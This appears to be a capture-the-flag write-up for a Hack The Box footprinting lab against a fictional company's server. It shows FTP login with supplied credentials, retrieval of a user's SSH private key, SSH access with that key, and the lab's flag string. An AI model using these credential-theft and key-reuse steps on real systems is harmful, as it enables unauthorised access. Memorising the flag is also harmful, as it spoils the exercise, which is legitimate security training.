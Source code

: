 We were commissioned by the company `Inlanefreight Ltd` to test three different servers in their internal network. The company uses many different services, and the IT security department felt that a penetration test was necessary to gain insight into their overall security posture.

The first server is an internal DNS server that needs to be investigated. In particular, our client wants to know what information we can get out of these services and how this information could be used against its infrastructure. Our goal is to gather as much information as possible about the server and find ways to use that information against the company. However, our client has made it clear that it is forbidden to attack the services aggressively using exploits, as these services are in production.

Additionally, our teammates have found the following credentials "`ceil:qwer1234`", and they pointed out that some of the company's employees were talking about SSH keys on a forum.

The administrators have stored a `flag.txt` file on this server to track our progress and measure success. Fully enumerate the target and submit the contents of this file as proof.

## 10.129.193.209

### Nmap result

![[Pasted image 20241115094314.png]]

Port `2121`
![[Pasted image 20241115094443.png]]
as mentioned on the sceinrior above the password and user are `ceil:qwer1234`

we see that port `2121` is ftp so we will login into the ftp with provided credentials.
```bash
ftp 10.129.193.209 -p 2121
# username is: ceil
# password is: qwer1234
ls -la
cd .ssh
get id_rsa
quit
```
![Alt text](/Assets/attachments/Pasted image 20241115102949.png)
![Alt text](/Assets/attachments/Pasted image 20241115103133.png)
After downloading the `id_rsa` we can use it to ssh to it.
```bash
chmod 600 id_rsa
ssh -i id_rsa ceil@10.129.193.209
find / -name flat.txt 2>/dev/null
cat /home/flag/flag.txt
#HTB{7nrzise7hednrxihskjed7nzrgkweunj47zngrhdbkjhgdfbjkc7hgj}
```
![](/Assets/attachments/Pasted image 20241115103357.png)
We can submit the flag as the answer and Done!